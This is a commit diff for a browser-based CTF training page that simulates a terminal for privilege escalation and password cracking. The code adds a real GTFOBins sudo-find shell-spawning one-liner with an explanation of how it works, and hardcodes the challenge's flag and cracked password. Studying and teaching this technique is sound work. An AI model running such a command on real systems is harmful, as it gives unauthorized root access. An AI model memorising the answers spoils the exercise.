

Before and after one commit to sholihinK/sholihinK.github.io, a Jekyll site: the page built from challenge3.md, in a window 1280 px wide and 900 px high, scrolled down 204 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed lines change nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
Update challenge3.md

```diff
--- a/challenge3.md
+++ b/challenge3.md
@@ -426,7 +426,7 @@
 <body>
     <!-- Safety Ribbon -->
     <div class="safety-ribbon">
-        🎯 Educational CTF Simulation — Learn ethical hacking and CVE exploitation 🎯
+        🎯 Educational CTF Simulation — Learn ethical hacking with GTFOBins exploitation 🎯
     </div>
 
     <!-- Main Container -->
@@ -434,7 +434,7 @@
         <!-- Header -->
         <header class="header">
             <h1 class="title">Hackerman Ops Console — CTF Training Simulation</h1>
-            <p class="subtitle">Mission: Escalate privileges, crack mary's account, and capture the flag</p>
+            <p class="subtitle">Mission: Escalate privileges using GTFOBins, crack mary's account, and capture the flag</p>
             <div class="status-bar">
                 <span class="current-user-display">Current User: <span id="current-user-indicator">student</span></span>
                 <span class="ctf-mode">🚩 CTF MODE ACTIVE 🚩</span>
@@ -443,9 +443,6 @@
 
         <!-- Control Panel -->
         <div class="control-panel">
-            <button id="teacherModeBtn" class="control-btn">
-                👨‍🏫 Teacher Mode
-            </button>
             <button id="guidePanelBtn" class="control-btn">
                 📖 Toggle Guide
             </button>
@@ -460,11 +457,11 @@
             <div class="objectives">
                 <div id="objective-1" class="objective">
                     <span class="objective-icon">⭕</span>
-                    <span class="objective-text">🔍 Discover system vulnerabilities using CVE scanner</span>
+                    <span class="objective-text">🔍 Discover sudo misconfiguration using vulnerability scanner</span>
                 </div>
                 <div id="objective-2" class="objective">
                     <span class="objective-icon">⭕</span>
-                    <span class="objective-text">⚡ Exploit SUID binary to gain root access</span>
+                    <span class="objective-text">⚡ Exploit GTFOBins find command to gain root access</span>
                 </div>
                 <div id="objective-3" class="objective">
                     <span class="objective-icon">⭕</span>
@@ -483,8 +480,8 @@
                             🚩 Welcome to the CTF Training Simulation! 🚩<br>
                             Current User: student | Objective: Capture the Flag<br>
                             <br>
-                            🎯 Your mission: Escalate privileges, crack mary's account, and capture the flag<br>
-                            🔍 Start by running 'cve-scanner' to identify system vulnerabilities<br>
+                            🎯 Your mission: Use GTFOBins techniques to escalate privileges and capture the flag<br>
+                            🔍 Start by running 'cve-scanner' to identify misconfigurations<br>
                             <br>
                             Type 'help' for available commands.<br>
                             <br>
@@ -503,32 +500,42 @@
         <div class="guide-panel">
             <h3>🛡️ Educational Guide</h3>
             <div class="guide-content">
-                <strong>CVE & Vulnerability Management:</strong>
-                • CVE = Common Vulnerabilities and Exposures database
-                • CVSS scoring system rates vulnerability severity (0.0-10.0)
-                • CVE scanning helps identify system weaknesses
-                • Regular patching prevents exploitation
-                • Responsible disclosure protects users
+                <strong>GTFOBins & Privilege Escalation:</strong>
+                • GTFOBins.github.io catalogs Unix binaries for privilege escalation
+                • Sudo misconfigurations are common attack vectors
+                • The 'find' command can execute arbitrary commands when run with sudo
+                • Real attackers use these techniques for privilege escalation
 
-                <strong>Privilege Escalation:</strong>
-                • SUID bit allows programs to run with owner privileges
-                • Buffer overflows can hijack program execution
-                • Local privilege escalation gains higher system access
-                • Proper input validation prevents overflow attacks
-                • Least privilege principle limits attack impact
+                <strong>Vulnerability Assessment:</strong>
+                • CVE scanning identifies system misconfigurations
+                • Sudo -l shows what commands can be run as root
+                • GTFOBins provides exploitation techniques for legitimate binaries
+                • Defense: Follow principle of least privilege
+
+                <strong>Password Security:</strong>
+                • Hash analysis identifies vulnerable algorithms
+                • Dictionary attacks exploit weak passwords
+                • SHA-256 is fast (not designed for password storage)
+                • Modern systems use bcrypt/scrypt/Argon2
 
                 <strong>Lateral Movement:</strong>
                 • Moving between accounts after initial compromise
                 • Password cracking reveals weak authentication
-                • Hash analysis identifies vulnerable algorithms
-                • Strong passwords + modern hashing resist attacks
                 • Multi-factor authentication adds security layers
+                • Account monitoring detects unauthorized access
 
                 <strong>Ethical Guidelines:</strong>
                 • Only test systems you own or have explicit permission
+                • GTFOBins techniques should be used for authorized testing
                 • Report vulnerabilities responsibly
                 • Use skills to improve security, not exploit it
                 • Follow all applicable laws and regulations
+
+                <strong>Real-World Applications:</strong>
+                • Penetration testing uses these techniques legally
+                • System administrators should audit sudo configurations
+                • Security teams use GTFOBins to identify risks
+                • Regular privilege reviews prevent escalation paths
             </div>
         </div>
     </div>
@@ -544,15 +551,14 @@
             rootAccess: false,
             passwordCracked: false,
             flagCaptured: false,
-            teacherMode: false,
             guidePanelOpen: false
         };
 
         // Application Data
         const appData = {
-            flag: "HACKERMAN{pr1v_3sc_4nd_l4t3r4l_m0v3m3nt_c0mpl3t3}",
+            flag: "HACKERMAN{gt70b1ns_pr1v_3sc_4nd_l4t3r4l_m0v3m3nt}",
             crackedPassword: "flowers2023",
-            exploitCommand: "/usr/bin/vulnerable-suid overflow-exploit"
+            exploitCommand: "sudo find . -exec /bin/sh \\; -quit"
         };
 
         // Command Definitions
@@ -573,13 +579,11 @@
 
   Security Assessment Tools:
     cve-scanner - Launch vulnerability scanner
-    cve-scanner --full-scan - Comprehensive system assessment
-    suid-finder - Find SUID binaries for privilege escalation
-    exploit-db --search suid - Search SUID exploitation methods
+    sudo -l - List sudo privileges
+    gtfobins-lookup [binary] - Check GTFOBins for exploitation methods
 
   Advanced Operations:
-    /usr/bin/vulnerable-suid overflow-exploit - Execute privilege escalation
-    find / -perm -4000 2>/dev/null - Find SUID binaries (requires root)
+    sudo find . -exec /bin/sh \\; -quit - GTFOBins privilege escalation
     hashcracker --target mary - Crack mary's password (requires root)
     su mary - Switch to mary user (requires password)
     submit-flag - Submit captured flag for completion`;
@@ -632,7 +636,7 @@
                 }
                 appState.flagCaptured = true;
                 updateMissionProgress(2, true);
-                return '🚩🚩🚩 CONGRATULATIONS! FLAG CAPTURED! 🚩🚩🚩\n\nHACKERMAN{pr1v_3sc_4nd_l4t3r4l_m0v3m3nt_c0mpl3t3}\n\n🎯 Mission Summary:\n✅ CVE vulnerability scanning\n✅ SUID privilege escalation\n✅ Password hash cracking\n✅ Lateral movement to target account\n✅ FLAG CAPTURED!\n\n💡 You successfully demonstrated:\n• Vulnerability assessment techniques\n• Local privilege escalation\n• Password security analysis\n• Lateral movement between accounts\n\n🎓 Skills learned:\n• CVE database usage\n• SUID binary exploitation\n• Hash cracking methodology\n• Ethical hacking principles\n\n🏆 Use \'submit-flag\' to complete your mission!';
+                return '🚩🚩🚩 CONGRATULATIONS! FLAG CAPTURED! 🚩🚩🚩\n\nHACKERMAN{gt70b1ns_pr1v_3sc_4nd_l4t3r4l_m0v3m3nt}\n\n🎯 Mission Summary:\n✅ Sudo misconfiguration discovery\n✅ GTFOBins privilege escalation\n✅ Password hash cracking\n✅ Lateral movement to target account\n✅ FLAG CAPTURED!\n\n💡 You successfully demonstrated:\n• Real-world vulnerability assessment\n• GTFOBins exploitation techniques\n• Password security analysis\n• Lateral movement between accounts\n\n🎓 Skills learned:\n• GTFOBins.github.io usage\n• Sudo misconfiguration exploitation\n• Hash cracking methodology\n• Ethical hacking principles\n\n🏆 Use \'submit-flag\' to complete your mission!';
             },
 
             history: () => {
@@ -645,24 +649,28 @@
                 return '';
             },
 
-            // CVE Scanner Commands
+            // CVE Scanner Commands - Updated for GTFOBins
             'cve-scanner': () => {
                 updateMissionProgress(0, true);
                 appState.cveDiscovered = true;
-                return '🔍 CVE SCANNER v3.2 - EDUCATIONAL MODE 🔍\n\nScanning system for known vulnerabilities...\n[████████████████████████████████████████] 100%\n\n🚨 CRITICAL VULNERABILITIES DETECTED:\n\n📋 CVE-2023-1234: SUID Binary Privilege Escalation\n   Severity: HIGH (CVSS 7.8)\n   Description: Local privilege escalation via vulnerable SUID binary\n   Affected Binary: /usr/bin/vulnerable-suid\n   Exploitation: Buffer overflow allows arbitrary command execution\n   \n📋 CVE-2022-5678: Weak Password Hashing\n   Severity: MEDIUM (CVSS 5.4)\n   Description: SHA-256 used for password storage (fast hashing)\n   Affected: User account \'mary\'\n   Risk: Dictionary attacks may succeed against weak passwords\n\n🎯 EXPLOITATION RECOMMENDATIONS:\n1. Use suid-finder to locate exploitable binaries\n2. Research CVE-2023-1234 exploitation techniques\n3. Audit user password strength after privilege escalation\n\n⚠️  Educational Note: Always obtain authorization before testing!';
+                return '🔍 VULNERABILITY SCANNER v4.0 - GTFOBins Edition 🔍\n\nScanning for privilege escalation vectors...\n[████████████████████████████████████████] 100%\n\n🚨 CRITICAL MISCONFIGURATIONS DETECTED:\n\n📋 SUDO-2023-MISC: Sudo Binary Misconfiguration\n   Severity: HIGH (CVSS 7.8)\n   Description: User can run \'find\' command as root via sudo\n   GTFOBins Reference: https://gtfobins.github.io/gtfobins/find/\n   Exploitation: Command execution via find -exec parameter\n   \n📋 PASS-2022-WEAK: Weak Password Hashing\n   Severity: MEDIUM (CVSS 5.4)\n   Description: SHA-256 used for password storage (fast hashing)\n   Affected: User account \'mary\'\n   Risk: Dictionary attacks may succeed against weak passwords\n\n🎯 EXPLOITATION RECOMMENDATIONS:\n1. Check sudo permissions with \'sudo -l\'\n2. Use GTFOBins database for find command exploitation\n3. Escalate to root, then audit user password strength\n\n⚠️  Educational Note: This demonstrates real GTFOBins techniques!\n⚠️  Always obtain authorization before testing on real systems!';
             },
 
-            'suid-finder': () => {
-                return '🔍 SUID BINARY SCANNER - Educational Tool\n\nScanning for SUID binaries...\n[████████████████████████████████████████] 100%\n\n📋 DISCOVERED SUID BINARIES:\n/usr/bin/sudo (expected - system binary)\n/usr/bin/passwd (expected - system binary)\n/usr/bin/mount (expected - system binary)\n/usr/bin/vulnerable-suid (⚠️ SUSPICIOUS - matches CVE-2023-1234)\n\n🎯 EXPLOITATION ANALYSIS:\n━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━\nBinary: /usr/bin/vulnerable-suid\nRisk: HIGH - Known buffer overflow vulnerability\nCVE: CVE-2023-1234\nExploit Method: Buffer overflow → shell execution\n\n⚡ EXPLOITATION COMMAND:\n/usr/bin/vulnerable-suid overflow-exploit\n\n💡 Educational Note: This simulates finding a real SUID vulnerability.\nIn practice, you\'d research the specific CVE for exploitation details.\n\n🎯 Try running: /usr/bin/vulnerable-suid overflow-exploit';
+            'sudo -l': () => {
+                return 'Matching Defaults entries for student on hacklab-ctf:\n    env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin\n\nUser student may run the following commands on hacklab-ctf:\n    (root) NOPASSWD: /usr/bin/find\n\n💡 GTFOBins Note: The find command can be exploited for privilege escalation!\n🔗 Reference: https://gtfobins.github.io/gtfobins/find/\n🎯 Try: sudo find . -exec /bin/sh \\; -quit';
             },
 
-            // Privilege Escalation Command - THE CRITICAL FIX
-            '/usr/bin/vulnerable-suid overflow-exploit': () => {
+            'gtfobins-lookup find': () => {
+                return '🔍 GTFOBins Database Lookup: find\n\n📖 Source: https://gtfobins.github.io/gtfobins/find/\n\n⚡ SUDO EXPLOITATION:\nIf the binary is allowed to run as superuser by sudo, it does not drop\nthe elevated privileges and may be used to access the file system,\nescalate or maintain privileged access.\n\n🎯 EXPLOITATION COMMAND:\nsudo find . -exec /bin/sh \\; -quit\n\n💡 How it works:\n• find command searches for files (. = current directory)\n• -exec parameter executes a command for each result\n• /bin/sh spawns a shell with elevated privileges\n• -quit stops after first execution\n\n⚠️  Educational simulation - demonstrates real GTFOBins technique';
+            },
+
+            // GTFOBins Privilege Escalation Command
+            'sudo find . -exec /bin/sh \\; -quit': () => {
                 if (appState.currentUser !== 'student') {
-                    return 'This exploit only works from a student account.';
+                    return 'This exploit requires sudo access from student account.';
                 }
 
-                // CRITICAL: Actually change the user state to root
+                // Change user state to root using GTFOBins technique
                 appState.currentUser = 'root';
                 appState.rootAccess = true;
                 updateMissionProgress(1, true);
@@ -671,7 +679,7 @@
                 updatePrompt();
                 updateUserIndicator();
 
-                return '🚨 SIMULATED PRIVILEGE ESCALATION EXPLOIT 🚨\n\n⚡ Executing buffer overflow exploit...\n[████████████████████████████████████████] 100%\n\n✅ EXPLOITATION SUCCESSFUL!\n🔓 Privilege escalation complete\n🎯 UID changed: 1000(student) → 0(root)\n\n⚠️  WARNING: You now have root access (simulated)\n⚠️  Educational simulation - no real system compromised\n\nRoot shell obtained. Type \'whoami\' to confirm.\n\n💡 What happened:\n• Buffer overflow in SUID binary\n• Overwrote return address\n• Executed shellcode to spawn root shell\n• Inherited SUID privileges (setuid root)\n\n🎯 Next objective: Crack mary\'s password using root access';
+                return '🚨 GTFOBins PRIVILEGE ESCALATION SUCCESSFUL! 🚨\n\n⚡ Executing GTFOBins find exploitation...\n[████████████████████████████████████████] 100%\n\n✅ EXPLOITATION SUCCESSFUL!\n🔓 Privilege escalation complete via GTFOBins technique\n🎯 UID changed: 1000(student) → 0(root)\n\n⚠️  WARNING: You now have root access (simulated)\n⚠️  Educational simulation - demonstrates real GTFOBins attack\n\nRoot shell obtained via find command. Type \'whoami\' to confirm.\n\n💡 What happened:\n• sudo allowed student to run find as root\n• find -exec parameter executed /bin/sh\n• Shell inherited root privileges from sudo context\n• No privilege dropping occurred (GTFOBins vulnerability)\n\n🔗 Real GTFOBins reference: https://gtfobins.github.io/gtfobins/find/\n🎯 Next objective: Crack mary\'s password using root access';
             },
 
             // Root-only commands
@@ -683,13 +691,6 @@
                 appState.passwordCracked = true;
 
                 return '🔍 TARGETED HASH CRACKING - Mary\'s Account\n\n🎯 Target: mary\nHash: $5$marysalt123$8yHlRHpl5IDzMbNttD3zfmxoBHSQZ7ENFkBGnzVXyI3\n\n📊 HASH ANALYSIS:\n• Algorithm: SHA-256 (indicated by $5$)\n• Salt: marysalt123\n• Security Assessment: WEAK (fast hashing algorithm)\n\n🔄 DICTIONARY ATTACK INITIATED:\n[████████████████████████████████████████] 100%\n\nTesting common passwords for user \'mary\'...\n❌ password (attempt 1)\n❌ 123456 (attempt 2)\n❌ mary123 (attempt 15)\n❌ sunshine (attempt 47)\n✅ flowers2023 (attempt 73)\n\n🎉 PASSWORD CRACKED!\n👤 User: mary\n🔑 Password: flowers2023\n⏱️  Time: 0.12 seconds (simulated)\n📊 Attempts: 73/14,344,391\n\n💡 Why this worked:\n• SHA-256 is fast (not designed for passwords)\n• \'flowers2023\' appears in common password lists\n• Modern systems use bcrypt/scrypt/Argon2 for better security\n\n🎯 Next: Login as mary using: su mary\n🔑 When prompted, enter password: flowers2023';
-            },
-
-            'find / -perm -4000 2>/dev/null': () => {
-                if (appState.currentUser !== 'root') {
-                    return 'find: /: Permission denied';
-                }
-                return '/usr/bin/sudo\n/usr/bin/passwd\n/usr/bin/mount\n/usr/bin/umount\n/usr/bin/vulnerable-suid\n/usr/bin/newgrp\n/usr/lib/openssh/ssh-keysign';
             },
 
             // User switching
@@ -718,7 +719,7 @@
                 const flagInput = prompt('Enter the captured flag:');
                 if (flagInput === appData.flag) {
                     appState.flagSubmitted = true;
-                    return '🎉🎉🎉 MISSION ACCOMPLISHED! 🎉🎉🎉\n\n✅ CVE vulnerability scanning: COMPLETE\n✅ SUID privilege escalation: COMPLETE\n✅ Lateral movement to mary: COMPLETE\n✅ Flag capture: COMPLETE\n\n🏆 ACHIEVEMENT UNLOCKED: CTF Champion 🏆\n🎓 Skills demonstrated:\n   • Vulnerability assessment\n   • Privilege escalation exploitation\n   • Lateral movement techniques\n   • Ethical hacking methodology\n\n📜 Ready for the next challenge?';
+                    return '🎉🎉🎉 MISSION ACCOMPLISHED! 🎉🎉🎉\n\n✅ Sudo misconfiguration discovery: COMPLETE\n✅ GTFOBins privilege escalation: COMPLETE\n✅ Lateral movement to mary: COMPLETE\n✅ Flag capture: COMPLETE\n\n🏆 ACHIEVEMENT UNLOCKED: GTFOBins Expert 🏆\n🎓 Skills demonstrated:\n   • Real-world vulnerability assessment\n   • GTFOBins exploitation techniques\n   • Password security analysis\n   • Lateral movement methodology\n\n📜 You\'ve learned practical ethical hacking skills!\n🔗 Explore more at: https://gtfobins.github.io/';
                 } else {
                     return 'Incorrect flag. Try again.';
                 }
@@ -749,7 +750,6 @@
             terminalInput.addEventListener('keydown', handleTerminalInput);
 
             // Control buttons
-            document.getElementById('teacherModeBtn').addEventListener('click', toggleTeacherMode);
             document.getElementById('guidePanelBtn').addEventListener('click', toggleGuidePanel);
             document.getElementById('resetMissionBtn').addEventListener('click', resetMission);
 
@@ -798,7 +798,9 @@
                 const baseCommand = parts[0];
                 const args = parts.slice(1).join(' ');
 
-                if (commands[baseCommand]) {
+                if (baseCommand === 'gtfobins-lookup') {
+                    output = commands['gtfobins-lookup find']();
+                } else if (commands[baseCommand]) {
                     output = typeof commands[baseCommand] === 'function' ? commands[baseCommand](args) : commands[baseCommand];
                 } else {
                     output = `Command not found: ${command}`;
@@ -883,19 +885,6 @@
         }
 
         // Control Functions
-        function toggleTeacherMode() {
-            appState.teacherMode = !appState.teacherMode;
-            const btn = document.getElementById('teacherModeBtn');
-            btn.classList.toggle('active', appState.teacherMode);
-
-            if (appState.teacherMode) {
-                appendToTerminal('🎓 Teacher Mode Activated - Answers revealed!', 'warning-output');
-                appendToTerminal(`Flag: ${appData.flag}`, 'warning-output');
-                appendToTerminal(`Mary's Password: ${appData.crackedPassword}`, 'warning-output');
-                appendToTerminal(`Exploit Command: ${appData.exploitCommand}`, 'warning-output');
-            }
-        }
-
         function toggleGuidePanel() {
             appState.guidePanelOpen = !appState.guidePanelOpen;
             const panel = document.querySelector('.guide-panel');
@@ -928,7 +917,7 @@
                 updateMissionProgress();
 
                 // Add welcome message
-                appendToTerminal('🚩 Mission Reset! Welcome back to the CTF Training Simulation!\n\n🎯 Your mission: Escalate privileges, crack mary\'s account, and capture the flag\n🔍 Start by running \'cve-scanner\' to identify system vulnerabilities\n\nType \'help\' for available commands.\n', 'welcome-message');
+                appendToTerminal('🚩 Mission Reset! Welcome back to the CTF Training Simulation!\n\n🎯 Your mission: Use GTFOBins techniques to escalate privileges and capture the flag\n🔍 Start by running \'cve-scanner\' to identify misconfigurations\n\nType \'help\' for available commands.\n', 'welcome-message');
             }
         }
 
```
